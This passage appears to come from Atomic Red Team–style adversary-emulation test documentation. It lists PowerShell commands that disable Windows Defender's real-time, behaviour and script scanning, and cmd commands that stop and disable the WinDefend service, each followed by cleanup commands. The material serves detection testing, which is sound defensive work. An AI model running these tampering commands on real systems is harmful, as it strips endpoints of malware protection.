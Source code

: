 **Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableBehaviorMonitoring 1
Set-MpPreference -DisableScriptScanning 1
Set-MpPreference -DisableBlockAtFirstSeen 1
```

#### Cleanup Commands:
```powershell
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableBehaviorMonitoring 0
Set-MpPreference -DisableScriptScanning 0
Set-MpPreference -DisableBlockAtFirstSeen 0
```





<br/>
<br/>

## Atomic Test #15 - Tamper with Windows Defender Command Prompt
Attempting to disable scheduled scanning and other parts of windows defender atp. These commands must be run as System, so they still fail as administrator.
However, adversaries do attempt to perform this action so monitoring for these command lines can help alert to other bad things going on. Upon execution, "Access Denied"
will be displayed twice and the WinDefend service status will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)


```cmd
sc stop WinDefend
sc config WinDefend start=disabled
sc query WinDefend
```

#### Cleanup Commands:
```cmd
sc start WinDefend >nul 2>&1
sc config WinDefend start=enabled >nul 2>&1
```

